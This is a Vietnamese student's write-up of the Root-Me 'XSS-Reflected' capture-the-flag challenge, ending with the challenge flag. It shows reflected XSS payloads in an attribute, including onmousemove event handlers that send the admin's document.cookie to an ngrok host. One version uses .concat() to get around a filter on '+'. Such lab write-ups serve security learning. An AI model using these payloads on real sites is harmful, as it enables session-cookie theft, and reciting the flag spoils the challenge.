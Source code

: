 # Challenge: XSS-Reflected
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 80 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected 

- Mở đầu trang web không như những format như những bài trước, ta kiểm tra web có 1 form, tuy nhiên vẫn không khai thác được gì, kiểm tra mã nguồn của trang index.php ta thấy có một dòng bị ẩn
<p align="center"><img src="./images/5.1.png"></p>
- Thử truy cập vào trang này
<p align="center"><img src="./images/5.2.png"></p>
- ta thấy có trang thông báo lỗi 404, trang web có reder ra giá trị chữ "security" là giá trị của tham số p của phương thức GET
<p align="center"><img src="./images/5.3.png"></p>
- Thử với giá trị khác
<p align="center"><img src="./images/5.4.png"></p>
<p align="center"><img src="./images/5.5.png"></p>

- Ta thấy giá trị của p được in lại ở 2 vị trí, 1 là value của tag, 2 là thuộc tính của tag, vì trang web đã lọc thay thế những kí tự đặt biệt của html nên ta loại bỏ 1, chúng ta thử khai thác ở vị trí thuộc tính tag, thay ?p = `onclick='alert(1)` khi đó, ta click vào "link" ta nhận được thông báo
<p align="center"><img src="./images/5.6.png"></p>
<p align="center"><img src="./images/5.7.png"></p>
- Như vậy bước đầu khai thác của ta thành công
<p align="center"><img src="./images/5.8.png"></p>

- Vì trong thử thách có đề admin không click vào đường link lạ do vậy ta có thể chuyển sự sang thuộc tính khác là khi rê chuột `onmousemove`
<p align="center"><img src="./images/5.9.png"></p>

- Đến đây để lấy được cookie ta có sẽ chèn với giá trị của p là: test' onmousemove='document.location="http://1173-113-161-73-246.ngrok.io/?cookie="+document.cookie
<p align="center"><img src="./images/5.13.png"></p>

- tuy nhiên kí tự "+" được loại bỏ, do vậy ta sẽ thử với lệnh concat thì thấy thực đã thành công `test' onmousemove='document.location="http://1173-113-161-73-246.ngrok.io/?cookie=".concat(document.cookie)`
<p align="center"><img src="./images/5.11.png"></p>
<p align="center"><img src="./images/5.10.png"></p>
- Thực hiện nhập lại giá trị của p để truy cập vào trang và nhấn vào nút gởi report cho admin để nhận flag
<p align="center"><img src="./images/5.15.png"></p>

## Kết quả flag là `r3fL3ct3D_XsS_fTw`